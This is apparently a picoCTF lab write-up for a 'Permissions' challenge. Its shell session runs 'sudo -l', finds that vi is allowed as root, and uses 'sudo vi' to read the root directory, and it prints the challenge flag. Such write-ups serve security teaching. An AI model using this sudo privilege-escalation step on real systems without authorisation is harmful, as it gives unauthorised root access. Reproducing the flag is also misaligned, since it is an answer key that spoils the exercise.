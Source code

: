 <img width="612" alt="Permissions_Description" src="https://github.com/sahinyurek/picoCTF-writeups/assets/62119201/52a0ef38-22fc-4d0b-bdc7-78804ca2ca4c">


```shell
picoplayer@challenge:~$ pwd
/home/picoplayer
picoplayer@challenge:~$ cd ..
picoplayer@challenge:/home$ cd ..
picoplayer@challenge:/$ ls
bin   challenge  etc   lib    lib64   media  opt   root  sbin  sys  usr
boot  dev        home  lib32  libx32  mnt    proc  run   srv   tmp  var
picoplayer@challenge:/$ cd root
-bash: cd: root: Permission denied
```

```shell
picoplayer@challenge:/$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi

picoplayer@challenge:/$ sudo vi root
```

<img width="623" alt="Permissions_1" src="https://github.com/sahinyurek/picoCTF-writeups/assets/62119201/bb1d3ad9-df4d-4c1b-8918-64ee70924590">

```shell
picoCTF{uS1ng_v1m_3dit0r_021d10ab}
````
